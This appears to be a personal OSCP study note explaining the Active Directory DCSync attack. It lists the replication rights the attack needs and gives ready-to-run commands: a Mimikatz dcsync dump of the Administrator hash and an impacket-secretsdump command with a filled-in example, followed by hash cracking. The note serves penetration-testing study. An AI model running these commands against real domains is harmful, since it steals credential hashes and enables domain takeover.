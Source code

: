 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/n-active-directory-attacks/6-dc-sync-attack/","updated":"2024-01-05T11:36:54.738+01:00"}
---
```


---------
- Domain controllers typically rely on more than one DC for redundancy.
- Directory Replication Service (DRS) Remote Protocol uses "replication" to synchronize.
- A domain controller may request an update for a specific object using the "IDL_DRSGetNCChanges" API.
- Issuing an object update request from a user with certain privileges will work even though its not coming from a DC.
- To launch a replication the user needs rights to:
	- _Replicating Directory Changes_
	- _Replicating Directory Changes All_ 
	- _Replicating Directory Changes in Filtered Set_
- Normally, Domain Admins, Enterprise Admins, and Administrator groups have these rights, which will let them perform a "dcsync attack" to request any user hashes.
-------------------------------------
### Local DCSync Attack with Mimikatz:
1. Start Mimikatz.
2. Perform dump:
```
lsadump::dcsync /user:corp\Administrator
```
3. Crack NTLM with hashcat.
------------
### Remote DCSync Attack with Impacket:
1. Run attack from Kali:
```
impacket-secretsdump -just-dc-user <targetuser> <domain/user-to-authenticate>:"<password-with-escaped-chars>"@<auth-user-ip>
```
Example:
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.72
```

